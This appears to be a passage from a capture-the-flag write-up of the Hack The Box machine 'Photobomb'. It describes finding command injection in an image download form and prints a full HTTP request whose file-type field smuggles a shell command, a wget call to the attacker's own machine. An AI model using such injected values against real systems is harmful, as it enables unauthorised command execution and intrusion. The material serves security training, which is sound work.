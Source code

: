 I used those credentials to access the '/printer' page.

![Printer Page](/assets/images/Photobomb/Connected.png "Printer Page")

This page had a bunch of images. And it allowed downloading them in different file types and sizes.

![Download Image](/assets/images/Photobomb/DownloadImage.png "Download Image")

Thinking that the application might have used shell commands to transform the images, I tried executing commands. I launched a web server on my machine and tried to make the application sends requests to it. I quickly found that I could use `;` in the file type and append a command to it.

```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 106
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg%3bwget+http%3a//10.10.14.143%3b&dimensions=30x20
```

